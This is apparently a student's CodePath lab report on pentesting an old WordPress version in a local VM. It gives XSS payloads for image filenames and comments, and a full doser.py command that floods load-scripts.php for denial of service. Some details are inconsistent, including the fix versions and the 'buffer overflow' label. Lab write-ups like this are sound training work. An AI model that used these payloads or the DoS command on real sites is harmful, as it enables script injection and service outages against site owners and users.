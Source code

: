 # Week7-CodePath

# Project 7 - WordPress Pentesting

Time spent: **10** hours spent in total

> Objective: Find, analyze, recreate, and document **three vulnerabilities** affecting an old version of WordPress

## Pentesting Report


1. Authenticated Stored Cross-Site Scripting via Image Filename
  - [ ] Summary: By inserting javascript infront of filename of image when the file is uploaded and the image is selected the script will run. This is due to Word Press not filtering javascript in the filenames text when an image is uploaded.
    - Vulnerability types: Cross Site Scripting (XSS)
    - Tested in version: 4.2
    - Fixed in version: 4.0.13
  - [ ] GIF Walkthrough: https://gfycat.com/anothersorrowfulfritillarybutterfly
  - [ ] Steps to recreate: Include script <img src=a onclick=alert("Oh_Baby_a_Triple!")> infront of the .img
  - [ ] Affected source code: 
    - [Link](https://wpdistillery.vm/wp-admin/includes/media.php)
2. Authenticated Stored Cross-Site Scripting
  - [ ] Summary: By inserting malicious javascript (“<a title='x onclick=alert(unescape(/Pwned/.source)) style=position:absolute;left:0;top:0;width:5000px;height:5000px "64kb characters"><a>") in the comment section followed by 64kb of characters, this creates a buffer overflow that allows the script to run when on the Post's page.
    - Vulnerability types: Cross Site Scripting (XSS)
    - Tested in version: 4.2
    - Fixed in version: 4.2.3
  - [ ] GIF Walkthrough: https://gfycat.com/CriminalWhichDoctorfish
  - [ ] Steps to recreate: Add the javascript in the comment section and after posting the comment click the page to activate XSS onclick.
  - [ ] Affected source code:
    - [Link](https://wpdistillery.vm/wp-admin/wp-includes/wpmu-functions.php)
3. Application Denial of Service (DoS) (Unpatched)
  - [ ] Summary: This DOS attack is accomplished by exploiting the vulnerability found in the page load-scripts.php which allows the user to send multiple javascript files in one request, this causes the network to slow to a crawl trying process all the scripts.
    - Vulnerability types: DOS attack
    - Tested in version: 4.2
    - Fixed in version: never fixed
  - [ ] GIF Walkthrough: https://gfycat.com/soulfulsophisticatedbarbet
  - [ ] Steps to recreate: By using the doser.py code created by Barak Tawily on github we can insert this command below to DOS attack the Word Press server.
 
  ```python doser.py -g 'http://WPdistillery.vm/wp-admin/load-scripts.php?c=1&load%5B%5D=eutil,common,wp-a11y,sack,quicktag,colorpicker,editor,wp-fullscreen-stu,wp-ajax-response,wp-api-request,wp-pointer,autosave,heartbeat,wp-auth-check,wp-lists,prototype,scriptaculous-root,scriptaculous-builder,scriptaculous-dragdrop,scriptaculous-effects,scriptaculous-slider,scriptaculous-sound,scriptaculous-controls,scriptaculous,cropper,jquery,jquery-core,jquery-migrate,jquery-ui-core,jquery-effects-core,jquery-effects-blind,jquery-effects-bounce,jquery-effects-clip,jquery-effects-drop,jquery-effects-explode,jquery-effects-fade,jquery-effects-fold,jquery-effects-highlight,jquery-effects-puff,jquery-effects-pulsate,jquery-effects-scale,jquery-effects-shake,jquery-effects-size,jquery-effects-slide,jquery-effects-transfer,jquery-ui-accordion,jquery-ui-autocomplete,jquery-ui-button,jquery-ui-datepicker,jquery-ui-dialog,jquery-ui-draggable,jquery-ui-droppable,jquery-ui-menu,jquery-ui-mouse,jquery-ui-position,jquery-ui-progressbar,jquery-ui-resizable,jquery-ui-selectable,jquery-ui-selectmenu,jquery-ui-slider,jquery-ui-sortable,jquery-ui-spinner,jquery-ui-tabs,jquery-ui-tooltip,jquery-ui-widget,jquery-form,jquery-color,schedule,jquery-query,jquery-serialize-object,jquery-hotkeys,jquery-table-hotkeys,jquery-touch-punch,suggest,imagesloaded,masonry,jquery-masonry,thickbox,jcrop,swfobject,moxiejs,plupload,plupload-handlers,wp-plupload,swfupload,swfupload-all,swfupload-handlers,comment-repl,json2,underscore,backbone,wp-util,wp-sanitize,wp-backbone,revisions,imgareaselect,mediaelement,mediaelement-core,mediaelement-migrat,mediaelement-vimeo,wp-mediaelement,wp-codemirror,csslint,jshint,esprima,jsonlint,htmlhint,htmlhint-kses,code-editor,wp-theme-plugin-editor,wp-playlist,zxcvbn-async,password-strength-meter,user-profile,language-chooser,user-suggest,admin-ba,wplink,wpdialogs,word-coun,media-upload,hoverIntent,customize-base,customize-loader,customize-preview,customize-models,customize-views,customize-controls,customize-selective-refresh,customize-widgets,customize-preview-widgets,customize-nav-menus,customize-preview-nav-menus,wp-custom-header,accordion,shortcode,media-models,wp-embe,media-views,media-editor,media-audiovideo,mce-view,wp-api,admin-tags,admin-comments,xfn,postbox,tags-box,tags-suggest,post,editor-expand,link,comment,admin-gallery,admin-widgets,media-widgets,media-audio-widget,media-image-widget,media-gallery-widget,media-video-widget,text-widgets,custom-html-widgets,theme,inline-edit-post,inline-edit-tax,plugin-install,updates,farbtastic,iris,wp-color-picker,dashboard,list-revision,media-grid,media,image-edit,set-post-thumbnail,nav-menu,custom-header,custom-background,media-gallery,svg-painter&ver=4.9' -t 9999```
  
  - [ ] Affected source code:
    - [Link](https://wpdistillery.vm/wp-admin/load-scripts.php) 

## Assets
Reference:https://sumofpwn.nl/advisory/2016/persistent_cross_site_scripting_vulnerability_in_wordpress_due_to_unsafe_processing_of_file_names.html

Reference:https://www.exploit-db.com/exploits/36844/

Reference:https://github.com/quitten/doser.py

Reference:https://thehackernews.com/2018/02/wordpress-dos-exploit.html

## Resources

- [WordPress Source Browser](https://core.trac.wordpress.org/browser/)
- [WordPress Developer Reference](https://developer.wordpress.org/reference/)

GIFs created with [giphy](https://giphy.com/).

## Notes

During testing WPdistillery after performing a buffer overflow attack I ran into the issue of the Virtual Machine breaking. In which I had to reinstall the WPdistillery machine and had to set up everything again.

## License

    Copyright [2018] [Michael Freeman]

    Licensed under the Apache License, Version 2.0 (the "License");
    you may not use this file except in compliance with the License.
    You may obtain a copy of the License at

        http://www.apache.org/licenses/LICENSE-2.0

    Unless required by applicable law or agreed to in writing, software
    distributed under the License is distributed on an "AS IS" BASIS,
    WITHOUT WARRANTIES OR CONDITIONS OF ANY KIND, either express or implied.
    See the License for the specific language governing permissions and
    limitations under the License.
